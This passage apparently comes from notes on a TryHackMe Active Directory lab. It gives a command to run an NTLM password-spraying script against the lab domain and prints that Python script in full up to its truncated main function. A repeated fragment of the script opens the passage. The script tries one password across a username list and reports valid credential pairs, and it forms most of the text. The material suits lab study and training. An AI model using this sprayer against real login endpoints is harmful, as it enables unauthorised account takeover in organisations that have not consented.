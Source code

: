 ```python
continue
if (self.verbose):
if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
print ("[-] Failed login with Username: " + user)
print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

Application will respond with 200 HTTP OK response code if credential pair is valid.

### Password Spraying <a href="#hrp5hq41y3o9" id="hrp5hq41y3o9"></a>

Execute Python script:

{% code overflow="wrap" %}
```
python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com
```
{% endcode %}

Python password spraying script content:

```python
#!/usr/bin/python3
import requests
from requests_ntlm import HttpNtlmAuth
import sys, getopt
class NTLMSprayer:
def __init__(self, fqdn):
self.HTTP_AUTH_FAILED_CODE = 401
self.HTTP_AUTH_SUCCEED_CODE = 200
self.verbose = True
self.fqdn = fqdn
def load_users(self, userfile):
self.users = []
lines = open(userfile, 'r').readlines()
for line in lines:
self.users.append(line.replace("\r", "").replace("\n", ""))
def password_spray(self, password, url):
print ("[*] Starting passwords spray attack using the following password: " + password)
count = 0
for user in self.users:
response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
count += 1
continue
if (self.verbose):
if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
print ("[-] Failed login with Username: " + user)
print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
def main(argv):
userfile = ''
fqdn = ''
password = ''
attackurl = ''
try:
opts, args = getopt.getopt(argv, "hu:f:p:a:", ["userfile=", "fqdn=", "password=", "attackurl="])
except getopt.GetoptError:
print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
sys.exit(2)
for opt, arg in opts:
if opt == '-h':
print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
sys.exit()
```